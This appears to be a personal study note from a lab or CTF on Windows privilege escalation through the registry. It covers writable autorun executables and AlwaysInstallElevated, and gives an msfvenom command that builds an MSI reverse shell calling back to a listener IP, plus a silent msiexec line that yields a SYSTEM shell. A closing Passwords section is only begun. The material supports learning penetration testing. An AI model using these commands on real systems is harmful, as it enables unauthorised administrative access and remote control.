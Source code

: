 --------------------
---------------------
## Registry
- Here we make use of Registry to find out info and we'll try to exploit!
- We're juect checking the features which we can abuse

### Autoruns:
- Autoruns is a feature in Windows to start few services or application during startup, for example "greenshot"
- We can check them manually by running `reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` - this will display autorun programs and their paths.
- The output is,
```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
    SecurityHealth    REG_EXPAND_SZ    %windir%\system32\SecurityHealthSystray.exe
    My Program    REG_SZ    "C:\Program Files\Autorun Program\program.exe"
```
- We got 2 programs with path so lets test.
- Now we'll run **accesscheck** to check what permissions are available to the file-path of these autoruns
- Simply run `accesschk.exe \accepteula -wvu "<path>"`, i ran that for **My Program** autorun's path and the output statted `FILE_ALL_ACCESS`, so we can literally do anything in this folder. Mainly we can replace the original executable and restart the system and we can get the shell.
- No we need to wait till the admin login and we'll get the shell as privileges user!
- The catch here is that we need to wait till admin/owner logins or else we're good to go!

------------------------------
### AlwaysInstallElevated
- It allows standard user to install **msi**(Microsoft Installer) with adminsitrative privileges.
- This is cool and easy to obtain higher privileges,
- We can check thet by running,
`reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
` and
`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
`
- Run both these commands and the value for **AlwaysInstallElevated** must be 1 or 0x1. So that we can confirm and proceed along.
- Now create a reverse-shell of format **msi** for reference check the below command,
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.13.39.50 LPORT=4444 --platform windows -f msi > reverse.msi`
- Now transfer that to windows machine and run the command,
`msiexec /quiet /qn /i reverse.msi`
- Hurray! we got the shell as `nt authority\system`

------------------
-------------------
## Passwords:
- Here we look for credentials in registry, files...etc
- And we'll try to login!
